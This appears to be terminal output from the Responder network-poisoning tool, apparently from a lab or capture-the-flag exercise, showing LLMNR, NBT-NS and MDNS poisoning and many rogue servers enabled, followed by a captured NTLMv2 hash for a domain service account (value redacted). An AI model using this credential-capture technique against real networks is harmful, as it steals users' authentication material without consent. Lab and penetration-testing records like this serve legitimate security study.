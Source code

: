 ```c
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.8.0.2]
    Responder IPv6             [fe80::95ff:fec0:501c:7e92]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-QUK0AQKBHPY]
    Responder Domain Name      [92JP.LOCAL]
    Responder DCE-RPC Port     [48590]

[+] Listening for events...                                                                                                                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.10.186.230
[SMB] NTLMv2-SSP Username : TENGU\gMSA01$
[SMB] NTLMv2-SSP Hash     : gMSA01$::TENGU:REDACTED
```